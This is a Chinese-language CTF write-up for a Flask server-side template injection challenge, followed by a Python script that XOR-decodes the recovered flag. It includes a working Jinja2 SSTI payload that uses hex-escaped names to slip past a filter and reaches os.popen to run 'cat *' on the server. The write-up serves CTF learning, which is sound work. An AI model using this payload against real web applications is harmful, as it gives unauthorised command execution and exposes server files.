



# Flask SSTI

## 知识点

`python ssti`

`python xor`

## 解题

找到个输入框，随便输入什么都返回同样的字符串，因为是`SSTI`的题目，使用`SSTI`的`payload`



发现输入框处存在`SSTI`，看一下配置信息，发现了`flag`



但是似乎是被加密的，要解密需要进一步读取`app.py`文件，尝试各种绕过之后发现可以`hex`绕过

```python
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[117]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("cat *")["read"]()}}
```



用了`异或`进行加密，在逆向比较常见，利用`异或`的特性，即异或某字符两字即为原字符

example：

```python
print(ord('a'), ord('c'))
# 97 99
print(ord('a') ^ ord('c'))
# 2
print(ord('a') ^ ord('c') ^ ord('c'))
# 97
```

所以只需要再次异或即可获取明文，`python`代码如下

```python
encoded = '(U0\x1fy\x13y6fSsaxBM\x02mT3EI\x1a\t\x08-=\x01f\x1cUF\x15'

key = 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3'
key2 = 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT'

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

def decode(line, key, key2):
    result = ''
    for x in range(len(line)):
        print(chr(ord(line[x]) ^ x ^ ord(key[::-1][x]) ^ ord(key2[x])), end='')


if __name__ == '__main__':
    decode(encoded, key, key2)
```

